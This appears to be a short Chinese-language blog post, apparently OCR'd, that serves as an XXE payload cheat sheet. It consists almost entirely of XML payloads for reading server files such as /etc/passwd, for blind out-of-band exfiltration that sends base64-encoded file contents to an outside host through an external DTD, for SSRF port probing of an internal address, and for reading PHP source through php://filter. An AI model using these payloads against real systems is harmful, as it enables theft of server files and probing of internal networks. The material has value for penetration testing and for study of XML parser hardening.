 ```yaml
---
layout: post
title: XXE
subtitle: XXE
date: 2024‎-‎11‎-‎03 ‏‎20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
---
```

# XXE payload

1、**有回显—读服务器文件：**

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
        <!ENTITY content SYSTEM "file:///etc/passwd">
        <!--<!ENTITY content SYSTEM "file:///c://Windows//System32//test.txt">-->
]>
<x>&content;</x>
```

2、**无回显-读取文件** 

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.30.130:8081/test.dtd">
        %dtd;
        %send;
]>

test.dtd:
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.30.130:8081/?data=%file;'>">
%payload;
```

2、**SSRF—探测端口：**

适用于有回显和blind xxe，也是外部一般实体：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [

    <!ENTITY content SYSTEM "http://10.165.89.150:88">]>

<name>&content;</name>
```

3、**如果是php的话，可以用php的filter协议直接读出文件**

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY>
<!ENTITY goodies SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> ]> 
<creds>&goodies;</creds>
```

